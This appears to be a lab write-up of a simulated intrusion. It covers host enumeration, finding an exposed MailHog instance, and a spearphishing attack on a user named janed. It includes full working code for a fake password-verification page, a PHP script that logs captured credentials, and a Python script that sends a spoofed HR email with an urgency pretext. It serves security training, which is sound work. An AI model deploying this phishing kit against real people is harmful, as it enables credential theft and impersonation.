








# Post-Exploitation

With `root` access to `corp-srv` confirmed, the next step was to enumerate the host from the inside to understand what it is, what it's running, and what opportunities that creates for further attacks.

## Local System Enumeration

### Operating System

```bash
cat /etc/os-release
```

Confirms the target is running **Ubuntu 22.04.5 LTS ("Jammy Jellyfish")**, consistent with the SSH banner seen during initial access.



**Figure 1 — `/etc/os-release` confirming Ubuntu 22.04.5 LTS.**

### Hostname

```bash
hostname
```

Confirms the machine identifies itself as `corp-srv`, matching the hostname Nmap had already fingerprinted remotely during reconnaissance.



**Figure 2 — Hostname confirmed as `corp-srv`.**

### Listening Services

```bash
netstat -tuln
```

* `-t` — Show TCP sockets.
* `-u` — Show UDP sockets.
* `-l` — Show only listening sockets.
* `-n` — Show numeric addresses/ports instead of resolving service names, for faster and unambiguous output.



**Figure 3 — Locally listening TCP/UDP services on `corp-srv`.**

This revealed several services that were **not visible from the earlier external Nmap scan**, because they either weren't in the `1-1000` port range or were bound in a way not exposed externally at scan time:

| Port  | Proto | Notes                                   |
| ----- | ----- | ---------------------------------------- |
| 631   | TCP   | CUPS (printing service), localhost only  |
| 1025  | TCP   | Unidentified at first glance             |
| 25    | TCP   | SMTP (Postfix — already known)           |
| 22    | TCP   | SSH (already known)                      |
| 8025  | TCP   | Unidentified at first glance             |
| 5353  | UDP   | mDNS                                     |

Ports **1025** and **8025** stood out as worth investigating further, since they aren't standard well-known service ports.

### Identifying MailHog

A bit of research into ports 1025/8025 pointed to **MailHog**, a mail-testing tool that exposes an SMTP listener (commonly on 1025) alongside a web UI (commonly on 8025) for viewing captured mail. Since port 8025 was listening on `0.0.0.0` (not just localhost), it was reachable directly from the attacker machine:

```
http://10.0.0.8:8025
```



**Figure 4 — MailHog web interface accessible externally at `10.0.0.8:8025`, showing a captured test email.**

The inbox showed an existing message addressed to **`janed@gmail.com`**, revealing a real internal user identity — `janed` — that could be targeted for a **phishing attack**, using `corp-srv`'s own SMTP relay (port 1025, MailHog) to send the message so it appears to originate internally.

This maps to MITRE ATT&CK **T1046 (Network Service Discovery)** and **T1589.002 (Gather Victim Identity Information: Email Addresses)**.

## Building a Phishing Page

To harvest `janed`'s credentials, a fake password-verification landing page was built and hosted on `corp-srv` itself using Apache, which was already installed on the box.

### `index.html`

A simple login-style form styled to resemble an internal "ProjectX" company portal, prompting the victim to "verify" their username and password:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Verify Your Password</title>
    <!-- styling omitted for brevity, see repo file -->
</head>
<body>
    <div class="container">
        
        <h1>Verify Your Password</h1>
        <p>Please verify your username and password to continue.</p>
        <form method="POST" action="process.php">
            <input type="text" name="username" placeholder="Username" required><br>
            <input type="password" name="password" placeholder="Password" required><br>
            <button type="submit">Verify</button>
        </form>
    </div>
</body>
</html>
```

The form submits via `POST` to `process.php`, which does the actual credential capture.

### `process.php`

```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = htmlspecialchars($_POST['username']);
    $password = htmlspecialchars($_POST['password']);

    $logFile = '/var/www/html/creds.log';
    $logEntry = date('Y-m-d H:i:s') . " - Username: $username, Password: $password\n";

    file_put_contents($logFile, $logEntry, FILE_APPEND);

    echo "Thank you! Your information has been verified.";
}
?>
```

* Reads the `username` and `password` fields submitted by the form.
* `htmlspecialchars()` sanitizes the input (defensive coding habit, not attack-relevant here) before it's written to disk.
* Appends a timestamped `username: ... password: ...` line to `/var/www/html/creds.log` using `file_put_contents(..., FILE_APPEND)`.
* Responds with a generic "Thank you! Your information has been verified." message so the victim believes the action succeeded and has no reason to suspect anything.

### Deploying the Page

The `index.html`, `process.php`, and the `project-x-logo.png` brand asset were placed in Apache's web root, and the web server was started:

```bash
cp index.html process.php project-x-logo.png /var/www/html/
sudo service apache2 start
```

This makes the phishing page available at `http://10.0.0.50` (the IP used for `corp-srv` in this scenario for the phishing link — reflecting how an attacker might stage the fake portal on a compromised or attacker-controlled host reachable by the victim).

## Sending the Phishing Email

With the landing page live, a Python script was used to craft and send a pretext email impersonating "ProjectX HR," routed through `corp-srv`'s own MailHog SMTP listener (port 1025) so it's delivered as if it came from an internal system.

### `send_mail.py`

```python
import smtplib
from email.message import EmailMessage

msg = EmailMessage()
msg["Subject"] = "Update Password!"
msg["From"] = "project-x-hrteam@corp.project-x-dc.com"
msg["To"] = "janed@linux-client"

# Plain text version (fallback)
msg.set_content(
    "Hey Jane! This is HR, make sure to update your password info."
)

# HTML version
html_content = """
<html>
    <body>
        <p>Hey Jane!<br>
        We noticed an unusual login attempt on your account, and for your security,
        we have locked your account.<br>
        To verify your credentials, please click the link below:</p>
        <a href="http://10.0.0.50">Verify My Account</a>
        <p>
        For assistance, please contact our support team at support@company.com.<br>
        Thank you for your prompt attention to this matter.<br>
        Best regards,<br>
        ProjectX Security Team
        </p>
    </body>
</html>
"""
msg.add_alternative(html_content, subtype="html")

# Send the email through MailHog
with smtplib.SMTP("localhost", 1025) as server:
    server.send_message(msg)
```

What this does:

* Builds a multipart email using Python's `email.message.EmailMessage` — a **plain-text fallback** (`set_content`) plus an **HTML version** (`add_alternative(..., subtype="html")**), so the message renders as a formatted email in most clients while still degrading gracefully in plain-text-only clients.
* **`From`** is spoofed to look like an internal HR/security address (`project-x-hrteam@corp.project-x-dc.com`) to build false legitimacy — a classic pretexting technique.
* The HTML body uses a **social-engineering pretext** ("unusual login attempt," "account locked") designed to create urgency and pressure the recipient into clicking without thinking it through.
* The embedded link points to the phishing page staged earlier (`http://10.0.0.50`), styled as "Verify My Account."
* `smtplib.SMTP("localhost", 1025)` connects to the **MailHog SMTP listener** identified during enumeration and sends the message through it — no real internet-facing mail server or spoofed DNS/MX records are involved; this is entirely contained within the lab's mail relay.

This maps to MITRE ATT&CK **T1566.002 (Phishing: Spearphishing Link)** and **T1585.001 (Establish Accounts / Compromise Infrastructure — pretext sender identity)**.

## Victim Interaction

The email arrived in `janed`'s mailbox on the `linux-client` VM:



**Figure 5 — Phishing email received in `janed`'s mailbox on `linux-client`, showing the spoofed HR sender and urgency-driven pretext.**

Assuming the victim doesn't recognize the email as suspicious and clicks the "Verify My Account" link, she's taken to the fake password-verification page hosted on `corp-srv`:



**Figure 6 — The phishing landing page (`10.0.0.50`) impersonating a ProjectX password-verification portal.**

After entering her username and password and clicking **Verify**, she's shown a generic confirmation message with no indication anything went wrong:



**Figure 7 — `process.php` response shown to the victim after credential submission.**

## Harvesting the Credentials

Back on the attacker side, the submitted credentials are now sitting in the log file written by `process.php`:

```bash
sudo cat /var/www/html/creds.log
```



**Figure 8 — Harvested credentials captured in `creds.log` after `janed` submitted the phishing form.**

The attack successfully captured a working username/password pair (`janed` / `@password123!`) purely through social engineering — no exploitation of a software vulnerability was required.
